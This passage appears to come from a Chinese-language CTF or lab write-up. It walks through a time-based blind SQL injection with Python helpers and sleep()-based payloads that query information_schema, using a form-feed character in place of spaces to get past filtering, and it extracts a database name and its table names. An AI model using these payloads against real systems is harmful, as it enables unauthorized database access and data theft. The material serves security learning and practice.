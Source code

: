 ```python
        print(f'[Result] "{result}"')
    return result
```

先获取数据库名：

```python
# 获取数据库长度
db_len = test_int(1,10,"if(length(database())={},sleep(5),1)")
print(db_len)
# 获取数据库名
database = loop_str(1, db_len+1, "if((substr(database(),{},1))='{}',sleep(5),1)", log=True, log_result=True)
print(database)
```

得到数据库名为 `wfy`.

再求表个数：

```python
# 求表个数
table_count = test_int(1,10,"if((select(count(table_name))from(information_schema.tables)where(table_schema=database()))={},sleep(5),1)")
```

得到表的个数为 `3`.

获取表名：

```python
table_name = []
for i in range(0, table_count):
    # 查找表i名称的长度
    len = test_int(
        1, 30,
        "if((select(length(table_name))from(information_schema.tables)where(table_schema=database())limit\x0C"+str(i)+",1)={},sleep(1),1)")
    if len==None:
            continue
    # 查找表i的名称
    table_name.append(loop_str(
        1, len+1,
        "if(substr((select(table_name)from(information_schema.tables)where(table_schema=database())limit\x0C"+str(i)+",1),{},1)='{}',sleep(1),1)",
        log_result=True, log=True))
print(table_name)
```

输出结果即为表名：

```python
['wfy_admin', 'wfy_comments', 'wfy_information']
```

猜想 `wfy_comments` 为储存具体数据的表。查找其列名：
